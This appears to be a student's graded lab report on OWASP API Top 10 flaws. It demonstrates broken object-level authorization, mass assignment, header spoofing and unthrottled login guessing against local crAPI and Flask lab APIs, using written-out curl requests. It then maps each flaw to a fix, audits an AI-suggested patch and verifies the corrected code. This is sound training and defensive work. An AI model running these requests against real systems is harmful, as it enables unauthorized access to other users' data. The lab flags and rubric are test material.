The Docker containers started successfully, and I accessed the crAPI dashboard through my local browser.

#### 2. Vulnerability Testing

**Endpoint:**

`GET /identity/api/v2/vehicle/{vehicleid}/location`

**Steps Performed:**

1. Logged in to my local crAPI account.
2. Added my own vehicle to the dashboard.
3. Opened Chrome DevTools and inspected the vehicle location API.
4. Visited a Community post created by another user named Robot.
5. Found Robot's `vehicleid` in the Community API response.
6. Replaced my vehicle ID with Robot's vehicle ID in the location request.
7. Sent the modified request using my authenticated session.
8. Inspected the HTTP status and response data.

#### 3. Results

**HTTP Status:** `200 OK`

**Response Data:**

```json
{
  "carId": "4bae9968-ec7f-4de3-a3a0-ba1b2ab5e5e5",
  "fullName": "Robot",
  "email": "robot001@example.com",
  "vehicleLocation": {
    "id": 3,
    "latitude": 37.746880,
    "longitude": -84.301460
  }
}
```

The API returned Robot's vehicle information, including location coordinates, even though I was authenticated as a different user.

#### 4. Vulnerability Explanation

The API accepted a request containing another user's vehicle ID without properly checking whether my account owned that vehicle.

By replacing the vehicle ID in the request URL, I was able to access Robot's vehicle location. This demonstrates Broken Object Level Authorization (API1:2023).

#### 5. Recommended Mitigation

The API should verify that the authenticated user owns the requested vehicle before returning its location.

If the user does not have permission to access the vehicle, the API should reject the request with an appropriate HTTP status, such as 403 Forbidden.

#### 6. Evidence

**crAPI BOLA Exploit — Vehicle Location Disclosure**

The screenshot shows the API response containing Robot's vehicle information, the HTTP 200 status, and my student identity proof.




#### 7. Challenge Flag / Proof of Completion

**Challenge:** OWASP crAPI — Challenge 1

**OWASP ID:** API1:2023 — Broken Object Level Authorization (BOLA)

**Flag:** No separate flag was identified.

**Proof of Completion:**
- HTTP Status: 200 OK
- Accessed another user's vehicle information
- Retrieved Robot's vehicle location
- Confirmed latitude and longitude disclosure

The official OWASP crAPI Challenge 1 documentation
describes accessing another user's sensitive vehicle
information as the challenge objective.

The vulnerability was successfully demonstrated,
but no separate flag string was obtained.


### Task 5 — Defend / fix it (20 min)
**Goal:** Explain the fixes using the secure reference `solution_api.py`.
**Steps:** Read the three `# --- FIX ...` blocks. For each, quote the line(s) that defeat your Task 1–3 exploit: the per-object ownership check (`caller["id"] != uid and not caller["is_admin"]`), `ALLOWED_CREATE_FIELDS` binding, and the `RATE_LIMIT=5 / RATE_WINDOW=60` limiter.
**Deliverable:** for each of API1/API3/API4 — the exploit that worked on `:8080`, the line in `solution_api.py` that blocks it, and the new HTTP status on `:8081`.

#### Exploit-to-Fix Mapping

| OWASP API ID | Exploit on Port 8080 | Security Fix | Result on Port 8081 |
|---|---|---|---|
| API1:2023 — BOLA | Accessed Carol's orders without authentication (200 OK) | Object-level ownership check | 401 / 403 / 200 |
| API3:2023 — Mass Assignment | Created a user with `is_admin=true` and `balance=1000000` | Allow-list and server-controlled fields | 201 Created, but `is_admin=false` and `balance=0` |
| API4:2023 — Resource Consumption | Repeated login requests without throttling | Rate limiting: 5 requests per 60 seconds per IP | 401 for first five failed attempts, then 429 |

#### API1:2023 — Broken Object Level Authorization

**Vulnerability:**

The insecure API allows users to access another user's orders without checking authentication or object ownership.

**Exploit Command:**

```powershell
curl.exe -i http://localhost:8080/api/users/3/orders
```

**Insecure API Result:**

```text
HTTP/1.1 200 OK

[{"item":"Server rack","order_id":"C-1","total":5000},{"item":"FLAG{bola_demo}","order_id":"C-FLAG","total":0}]
```

**Security Fix in `solution_api.py` (Lines 47–52):**

```python
caller = current_user()

if caller is None:
    return jsonify({"error": "authentication required"}), 401

if caller["id"] != uid and not caller["is_admin"]:
    return jsonify({"error": "forbidden"}), 403
```

**Secure API Results:**

| Test | HTTP Status | Result |
|---|---|---|
| No authentication | 401 Unauthorized | Authentication required |
| Alice accesses Carol's orders | 403 Forbidden | Access denied |
| Alice accesses her own orders | 200 OK | Access granted |

**Explanation:**

The secure API checks the current user and verifies object ownership before returning orders. Users can access their own orders, while administrators can access other users' orders according to the lab's authorization rules.

**Limitation:**

The original lab still trusts the client-controlled `X-User-Id` header. A production system should use verified authentication, such as secure sessions or validated authentication tokens.

---

#### API3:2023 — Mass Assignment

**Vulnerability:**

The insecure API uses `user.update(body)`, which accepts all fields provided by the client. This allows users to set sensitive properties such as `is_admin` and `balance`.

**Exploit Command:**

```powershell
curl.exe -i -X POST http://localhost:8080/api/users -H "Content-Type: application/json" --data-binary "@task2-body.json"
```

**Insecure API Result:**

```text
HTTP/1.1 201 CREATED
```

```json
{
  "balance": 1000000,
  "flag": "FLAG{massassign_demo}",
  "id": 4,
  "is_admin": true,
  "password": "x",
  "username": "mallory"
}
```

**Security Fix in `solution_api.py` (Lines 34, 62, 66):**

```python
ALLOWED_CREATE_FIELDS = {"username", "password"}

user = {
    k: body[k]
    for k in ALLOWED_CREATE_FIELDS
    if k in body
}

user.update({
    "id": _next_id,
    "balance": 0,
    "is_admin": False
})
```

**Secure API Result:**

```text
HTTP/1.1 201 CREATED
```

```json
{
  "balance": 0,
  "id": 4,
  "is_admin": false,
  "password": "x",
  "username": "mallory"
}
```

**Explanation:**

The secure API uses an allow-list to accept only approved fields from the client. The server controls sensitive fields such as `id`, `balance`, and `is_admin`.

The API still returns HTTP 201 because the user was created successfully, but the unauthorized field changes were ignored.

**Limitation:**

Other API endpoints must also restrict editable fields. The application should avoid storing or returning plaintext passwords in production.

---

#### API4:2023 — Unrestricted Resource Consumption

**Vulnerability:**

The insecure API does not limit login requests, allowing repeated password guessing without throttling.

**Insecure API Result:**

```text
Trying password: wrong1
HTTP Status: 401

Trying password: wrong2
HTTP Status: 401

Trying password: wrong3
HTTP Status: 401

Trying password: alice123
HTTP Status: 200
```

All four login attempts were processed without rate limiting.

**Security Fix in `solution_api.py` (Lines 73–84):**

```python
RATE_LIMIT = 5
RATE_WINDOW = 60

def rate_limited(ip):
    now = time.time()

    _attempts[ip] = [
        t for t in _attempts[ip]
        if now - t < RATE_WINDOW
    ]

    if len(_attempts[ip]) >= RATE_LIMIT:
        return True

    _attempts[ip].append(now)
    return False
```

**Rate Limit Enforcement (Lines 89–90):**

```python
if rate_limited(request.remote_addr or "unknown"):
    return jsonify({"error": "too many requests"}), 429
```

**Secure API Result:**

```text
Attempt 1 : 401
Attempt 2 : 401
Attempt 3 : 401
Attempt 4 : 401
Attempt 5 : 401
Attempt 6 : 429
Attempt 7 : 429
```

**Explanation:**

The secure API limits each IP address to five login attempts within 60 seconds. Additional attempts receive HTTP 429 Too Many Requests.

This helps reduce brute-force attacks and excessive server resource consumption.

**Limitation:**

The rate limiter stores data in memory and only tracks IP addresses. Production systems should use shared rate-limit storage and additional security protections.


#### Conclusion

The secure API addresses the three demonstrated vulnerabilities through object-level authorization, allow-list binding, and rate limiting.

The tests confirmed that these controls work in the lab. However, stronger authentication and other security improvements are required for production use.


#### Code Evidence

**API1:2023 — Object-Level Authorization**

The API checks user identity and object ownership before returning orders.


**API3:2023 — Allow-list Binding**

The API accepts only approved fields and prevents clients from changing sensitive properties.


**API4:2023 — Rate Limiting**

The API limits requests to five attempts per IP within 60 seconds and returns HTTP 429 when the limit is exceeded.


## Part 4 — Reflection

1. **Mapping:** complete a table — finding | endpoint | OWASP API id | fix applied.

**Answer:**

| Finding | Endpoint | OWASP API ID | Fix Applied |
|---------|----------|--------------|-------------|
| Broken Object Level Authorization (BOLA) | GET /api/users/{id}/orders | API1:2023 | Check user authentication and object ownership before returning orders. |
| Mass Assignment | POST /api/users | API3:2023 | Use an allow-list to accept only approved fields and let the server control sensitive properties. |
| Unrestricted Resource Consumption | POST /api/login | API4:2023 | Apply rate limiting to allow a maximum of 5 login requests per IP within 60 seconds. |

**Explanation:**

These three vulnerabilities were found in insecure APIs. Secure APIs mitigate these risks by verifying object ownership, restricting user input, and limiting repeated login requests.

2. **Real breach:** research an API authorization breach (e.g., the Optus or T-Mobile BOLA/IDOR incidents). Which API Top 10 id matches, and would the `solution_api.py` ownership check have prevented it?

**Answer:**

Case Study: Optus Data Breach (2022)

In September 2022, Optus, an Australian telecommunications company, suffered a massive data breach that exposed the personal information of millions of customers. Reports indicated that an API vulnerability potentially allowed access to customer data without proper authentication or authorization.

**Mapping to OWASP API Top 10:**

API1:2023 — Broken Object Level Authorization (BOLA): Relevant if the API allowed users to access another customer's data without verifying data ownership.

API2:2023 — Broken Authentication: Also relevant if the API permitted data access without verifying the user's identity.

As the exact technical cause of the Optus breach has not been officially confirmed in public reports, classifying it as BOLA is merely a plausible comparison rather than a confirmed conclusion.

Could ownership checks in the `solution_api.py` file have prevented this incident?

Proper ownership checks could prevent this type of unauthorized data access, provided the server also verifies the user's identity. However, the code in the lab alone might be insufficient, as it relies on the `X-User-Id` header value—which is client-controlled and can be spoofed.

**References**

1. [OAIC — Australian Information Commissioner Takes Civil Penalty Action Against Optus](https://www.oaic.gov.au/news/media-centre/australian-information-commissioner-takes-civil-penalty-action-against-optus)

2. [OWASP — API1:2023 Broken Object Level Authorization](https://api-security.owasp.org/editions/2023/en/0xa1-broken-object-level-authorization/)

3. [OWASP — API Security Top 10 (2023)](https://api-security.owasp.org/editions/2023/en/0x11-t10/)


3. **Best mitigation:** of object-level auth, allow-list binding, and rate limiting — which gives the most risk reduction for an API platform, and why?

**Answer:**

I think object-level authorization offers the greatest risk reduction for API platforms because it prevents users from accessing sensitive data belonging to other users.
For example, in Task 1, an insecure API allowed anyone to read Carol's orders simply by changing the user ID in the URL; a secure API, however, employs ownership checks to prevent such unauthorized access.
While allow-listing prevents users from modifying sensitive fields and rate limiting helps thwart brute-force attacks, object-level authorization is crucial for protecting user privacy and preventing data leakage.
Nevertheless, all three security measures are essential as they guard against different types of vulnerabilities; object-level authorization must be combined with secure authentication to ensure the user's identity is trustworthy.


## Grading rubric (100)

| Criterion | Weight |
|-----------|--------|
| Lecture questions (Part 2) | 20 |
| Exploitation + evidence (Tasks 1–4: commands, output, screenshots) | 40 |
| Defense (Task 5: fixes mapped to `solution_api.py`) | 25 |
| Reflection (Part 4: mapping, breach, best mitigation) | 15 |
| **Total** | **100** |

---

## Evidence & Integrity (required)

- **Identity proof:** every screenshot/diagram must show a terminal running `printf '%s | %s | ' "$(whoami)" '<YOUR-STUDENT-ID>'; date '+%F %T %Z'` **in the
  same image as the evidence**. When the evidence is a browser page, a DevTools panel or a
  rendered response, put that terminal **beside the browser and capture the whole screen** — a
  cropped window carries nothing that identifies you, and the lab's own output is
  byte-identical for the whole cohort *by design*, so the stamp is the only thing that makes
  the shot yours. Generic or borrowed evidence is not accepted.
- **Personalized flag (if this lab issues one):** `FLAG{bola_demo}`
**Mass Assignment Flag:** `FLAG{massassign_demo}`

**Note:** These are the default demonstration flags observed in my local lab. Personalized student flags have not yet been verified.

  *Flags are unique per student — submitting another student's flag is a violation. How to submit: **learn.zcr.ai/submit** (full guide: `SUBMISSION.md` in the repo root).*
- **Explain in your own words** *(graded on your reasoning, not copied text):*
  1. What did you do, and **why did the vulnerability work**?

  **Answer:**

I tested for three API vulnerabilities: BOLA, Mass Assignment, and Unrestricted Resource Consumption.

Regarding the BOLA vulnerability, I modified the User ID in the URL to access another user's order data, as the API failed to verify data ownership.

For the Mass Assignment vulnerability, I submitted `is_admin=true` and set a high account balance during the user registration process; the unprotected API accepted these values ​​because it trusted all fields included in the JSON request.

Regarding the Resource Consumption vulnerability, I sent repeated login requests; the unprotected API processed every request because there were no rate-limiting measures in place.

  2. **Why does your fix actually stop it** — and what could still break it?

  **Answer:**

This secure API employs ownership verification to prevent users from accessing other users' orders. Additionally, it utilizes an allow-list to prevent unauthorized modification of critical data and implements rate-limiting mechanisms to curb repeated access attempts.

During an AI-assisted system audit, it was discovered that the original authentication system remained vulnerable to exploitation via a forged `X-User-Id` header. Consequently, I revamped the authentication system using Flask signed sessions and verified that header-spoofing attacks are no longer feasible.

However, the system still has certain limitations; specifically, the lab's rate-limiting mechanism relies on in-memory storage, and the session-based implementation requires more robust security configurations before deployment in a production environment.

---

## 🤖 Audit the AI (required)

AI is a power tool you must **distrust** — you are graded on your *critique*, not the AI's answer.


### 1. Ask AI to Fix the Vulnerability

**Vulnerability:** API1:2023 — Broken Object Level Authorization (BOLA)

**Prompt Given to AI:**

How can I fix the BOLA vulnerability in my Flask API?

The endpoint `/api/users/<uid>/orders` allows users to access other users' orders. Please provide Python code to prevent unauthorized access.

**AI-Generated Answer (Full Response):**

To fix BOLA, the API should check the current user's identity and verify object ownership before returning orders.

```python
@app.get("/api/users/<int:uid>/orders")
def get_orders(uid):
    caller = current_user()

    if caller is None:
        return jsonify({"error": "authentication required"}), 401

    if caller["id"] != uid and not caller["is_admin"]:
        return jsonify({"error": "forbidden"}), 403

    return jsonify(ORDERS.get(uid, []))
```

This code prevents unauthorized users from accessing other users' orders. It returns HTTP 401 when authentication is missing and HTTP 403 when the user does not have permission.

---

### 2. Find What's Wrong or Risky

**Problem Identified:**

The AI-generated code checks object ownership but assumes that `current_user()` provides a trustworthy identity.

**Problematic Line:**

```python
caller = current_user()
```

In the original `solution_api.py`, the `current_user()` function trusts the client-controlled `X-User-Id` header.

```python
def current_user():
    try:
        return USERS.get(int(request.headers.get("X-User-Id", 0)))
    except (TypeError, ValueError):
        return None
```

This is insecure because the client can change the `X-User-Id` header to impersonate another user.

**Verification Command:**

```powershell
curl.exe -i -H "X-User-Id: 3" http://localhost:8081/api/users/3/orders
```

**Actual Result:**

```text
HTTP/1.1 200 OK

[{"item":"Server rack","order_id":"C-1","total":5000}]
```

**Explanation:**

The API returned Carol's orders even though I had not logged in as Carol. This proves that the original authentication mechanism could be bypassed by changing the `X-User-Id` header.

---

### 3. Corrected and Verified Version

**Corrected File:** `audit_fixed_api.py`

I created a separate file to improve the authentication mechanism without modifying the original `solution_api.py`.

**Fix 1 — Flask Session Configuration:**

```python
import secrets
from flask import Flask, jsonify, request, session

app = Flask(__name__)
app.secret_key = secrets.token_hex(32)
```

**Fix 2 — Use Session Authentication:**

```python
def current_user():
    user_id = session.get("user_id")
    return USERS.get(user_id)
```

**Fix 3 — Create a Session After Successful Login:**

```python
if u["username"] == body.get("username") and u["password"] == body.get("password"):
    session.clear()
    session["user_id"] = u["id"]

    return jsonify({
        "ok": True,
        "user_id": u["id"],
        "is_admin": u["is_admin"]
    })
```

The corrected implementation uses a signed Flask session instead of trusting the client-supplied `X-User-Id` header.

**Verification File:** `audit_verify.py`

**Command Used:**

```powershell
docker compose exec solution-api python audit_verify.py
```

**Actual Results:**

```text
Test 1 - Spoofed header: 401 {'error': 'authentication required'}

Test 2 - Alice login: 200 {'is_admin': False, 'ok': True, 'user_id': 1}

Test 3 - Alice to Carol: 403 {'error': 'forbidden'}

Test 4 - Alice to Alice: 200 [{'item': 'Keyboard', 'order_id': 'A-1', 'total': 30}]
```

**Verification Summary:**

| Test | Expected | Actual | Result |
|------|----------|--------|--------|
| Spoofed header without login | 401 | 401 | Pass |
| Alice login | 200 | 200 | Pass |
| Alice accessing Carol's orders | 403 | 403 | Pass |
| Alice accessing her own orders | 200 | 200 | Pass |

**Why the AI's Answer Was Insufficient (2–3 Sentences):**

The original AI answer was incomplete because it checked object ownership without verifying the user's identity securely. I improved the code by using Flask sessions instead of trusting the `X-User-Id` header. All four verification tests passed, showing that header spoofing no longer bypasses authorization in the tested scenarios.

**Remaining Limitations:**

The corrected code is still a lab demonstration. Passwords are stored in plaintext, and the secret key is regenerated when the application starts. A production system requires stronger password and session security.

---

### 4. Evidence

**Original Authentication Vulnerability:**



**Corrected Fix Verification:**



> Disclose your AI use in the Part 1 table. This task counts toward your **Defense + Reflection** score.

---

## 🧠 Comprehension & Prompt (required)

**A. Explain in Plain English (EiPE).** In 2–3 sentences, in your own words, describe what this week's vulnerable code/endpoint actually *does* and *why it is exploitable* — explain the mechanism, don't dump jargon.

**Answer:**

This API, which lacks security measures, returns user order data based on the User ID specified in the URL without verifying whether the requester owns the order. Consequently, malicious actors can modify the ID value to access the private order information of other users.

**B. Prompt Problem.** Write a **single prompt** that makes an AI produce a *correct, secure* fix for one finding. Run it: does the exploit now fail? If not, refine the prompt and try again. Submit the **final prompt + the verified result**.
*Graded on the prompt's precision and your verification — this trains problem decomposition and AI literacy (Denny et al. 2024).*

#### Final Prompt

Fix my Flask API's BOLA vulnerability. Do not trust the client-controlled X-User-Id header. Use Flask signed sessions, create a session after successful login, and check object ownership on every request. Return HTTP 401 for unauthenticated users, 403 for unauthorized access, and 200 for authorized access. Keep the existing allow-list and rate limiter. Provide complete Python 3.12 code and verification tests without modifying solution_api.py.

#### AI-Generated Solution

The AI generated a new Flask API implementation in `prompt_fixed_api.py`.

The implementation uses signed Flask sessions instead of trusting the client-controlled `X-User-Id` header.

**Authentication Fix:**

```python
def current_user():
    user_id = session.get("user_id")

    if type(user_id) is not int:
        return None

    return USERS.get(user_id)
```

**Object-Level Authorization:**

```python
if caller is None:
    return jsonify({"error": "authentication required"}), 401

if caller["id"] != uid and not caller["is_admin"]:
    return jsonify({"error": "forbidden"}), 403
```

The solution also preserves allow-list binding and rate limiting.

#### Verification

**Verification File:** `audit_prompt_verify.py`

**Command Used:**

```powershell
docker compose exec solution-api python audit_prompt_verify.py
```

**Actual Results:**

```text
Test 1 - Spoofed header: 401 {'error': 'authentication required'}
Test 2 - Alice login: 200 {'is_admin': False, 'ok': True, 'user_id': 1}
Test 3 - Alice to Carol: 403 {'error': 'forbidden'}
Test 4 - Alice to Alice: 200 [{'item': 'Keyboard', 'order_id': 'A-1', 'total': 30}]
Test 5 - Mass assignment: 201 {'balance': 0, 'id': 4, 'is_admin': False, 'username': 'mallory'}
Test 6 - Rate limiting: [401, 401, 401, 401, 401, 429, 429]
All six verification checks passed.
```

**Verification Summary:**

| Test | Expected | Actual | Result |
|------|----------|--------|--------|
| Spoofed header without login | 401 | 401 | Pass |
| Alice login | 200 | 200 | Pass |
| Alice accessing Carol's orders | 403 | 403 | Pass |
| Alice accessing her own orders | 200 | 200 | Pass |
| Mass assignment protection | 201, admin=false | 201, admin=false | Pass |
| Rate limiting | 401 x5, 429 x2 | 401 x5, 429 x2 | Pass |

#### Explanation

I wrote a detailed prompt that required secure authentication, object-level authorization, and specific HTTP responses. The AI-generated code was tested using Flask's test client, and all six verification tests passed. The results show that the tested header-spoofing attack no longer bypasses authorization.

#### Remaining Limitations

The implementation is still intended for educational use. The in-memory rate limiter does not share state across multiple server processes, and the session secret is regenerated when the application restarts. Production deployment would require additional security configuration and testing.

#### Evidence

**Prompt Problem Verification:**

